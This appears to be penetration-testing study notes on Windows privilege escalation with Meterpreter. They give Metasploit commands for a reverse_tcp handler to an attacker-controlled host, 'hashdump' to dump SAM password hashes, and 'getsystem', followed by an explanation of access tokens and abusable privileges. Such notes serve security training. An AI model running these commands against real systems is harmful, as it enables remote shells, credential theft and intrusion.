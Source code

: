 # Meterpreter Privesc

To make the privilege escalation easier, We can switch to a meterpreter shell for ease of access of commands and run/load extensions and post-exploitation tools.

Ensure Handler is setup:

```
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.10.10.10 
set LPORT 1234
run
```

Privilege Commands

```
Dumps the contents of the SAM database
hashdump
Attempt to elevate your privilege to that of local system.
getsystem    
```

### Token impersonation

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:

* user SIDs(security identifier)
* group SIDs
* privileges

{% embed url="https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens" %}

There are two types of access tokens:

* primary access tokens: those associated with a user account that are generated on log on
* impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:

* SecurityAnonymous: current user/client cannot impersonate another user/client
* SecurityIdentification: current user/client can get the identity and privileges of a client, but cannot impersonate the client
* SecurityImpersonation: current user/client can impersonate the client's security context on the local system
* SecurityDelegation: current user/client can impersonate the client's security context on a remote system

where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:

* SeImpersonatePrivilege
* SeAssignPrimaryPrivilege
* SeTcbPrivilege
* SeBackupPrivilege
* SeRestorePrivilege
* SeCreateTokenPrivilege
* SeLoadDriverPrivilege
* SeTakeOwnershipPrivilege
* SeDebugPrivilege



